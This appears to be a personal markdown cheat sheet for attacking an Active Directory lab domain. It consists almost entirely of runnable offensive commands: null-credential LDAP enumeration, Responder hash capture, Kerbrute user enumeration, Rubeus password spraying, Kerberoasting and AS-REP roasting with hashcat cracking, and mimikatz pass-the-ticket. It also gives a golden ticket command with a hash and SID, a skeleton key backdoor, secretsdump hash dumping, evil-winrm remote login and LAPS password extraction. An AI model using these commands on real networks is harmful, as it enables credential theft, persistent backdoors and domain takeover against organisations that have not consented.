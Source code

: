 # Top Keys #
  1. Make sure you have added the domain to your /etc/hosts file
  2. You can search the hash using hashcat https://hashcat.net/wiki/doku.php?id=example_hashes 
  3. grep -i (ignore case helpful when searching output for password or hashes)


# LDAP #
1. Basic Search
 
  a. ldapsearch -h $ip -p 389 -x -s base
  
2. Null creds to try and get list of usernames

  a. ldapsearch -x -h $ip -D '' -w '' -b "DC=controller,DC=local"
  
  b. Can clean up output with grep also search for passwords! Remember grep case sensistive grep -i (ignore case)
  

# Responder #
1. Start up responder

  a. sudo responder -I tun0
  
  b. Call request either smb or website (download a file from your python server)
  
  c. Capture the NTLM hash you get

# Kerberute #
  1. Enumerate Users from Kali
  
     a ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
 
 # Rubeus #
  1. Harvest ticket caches
  
    a Rubeus.exe harvest /interval:30
   
  2. Brute force Password1 against all users
  
    a Rubeus.exe brute /password:Password1 /noticket
    
  3. Kerberoast -dump hashes of any kerberoastable users
  
    a Rubeus.exe kerberoast
   
    b Copy hash to hash.txr watch out for spaces
    
    c hashcat -m 13100 -a 0 hash.txt rockyou.txt
    
    
# ASREP Roasting # 
  1. Rubeus 
  
    a. rubeus.exe asreproast
    
    b Get all accounts that do not require pre authentication
    
    c Insert 23$ after $krb5asrep$ so for proper hash formating
    
    d hashcat -m 18200 hash.txt rockyou.txt
    
  2. Impacket GetNPUsers.py
  
    a. sudo python3 /opt/impacket/GetNPUsers.py CONTROLLER.local/ -usersfile users.txt -format hashcat
    
    b.  hashcat -m 18200 hash.txt rockyou.txt
 
 # mimikatz #
 1. ALWAYS RUN AS ADMIN
 2. Pass the Ticket
    a privilege::debug
   
    b sekurlsa::tickets /export (this will export all the tickets into your current directory)
    
    c Choose a ticket with admin (or user you want)
    
    d kerberos::ptt <ticket file name>
	
    e exit mimi
	
    f klist (show that you have now changed)
	
 3. Gold and Silver Tickets
    a run as admin
	
    b privilege::debug
	
    c lsadump::lsa /inject /name:krbtgt (this will dump the hash and security identifier krbtgt can be changed to other account names like sqlservice  or bob)
	
    d Gold ticket ->
	i. Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
	
 4. Mimikatz skeleton
	
		a. run as admin
	
		b. privilege::debug
	
		c. misc::skeleton
	
		d. Exit and you can read shares with default creds mimikatz
			The default credentials will be: "mimikatz"			
			example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password			
      example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1!
# Secrets Dump #
1. Impacket Secrets Dump if you have creds of admin or backup account
	
  a. sudo python3 /opt/impacket/examples/secretsdump.py controller.local/admin:password@controller.local
	
  b. You will get the NTLM hashes 
  
 #Remote In #
  1. evil-winrm -i $ip -u user -p password
  
 # Priv Esc #
 1. If LAPS is in program files
	
    a. ldapsearch -x -h $ip -D user@controller.local -w password -b "DC=controller,DC=local"  "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
	
    b. Powershell schedule task to run rev shell with admin priv?

  #Lateral Movements #

 

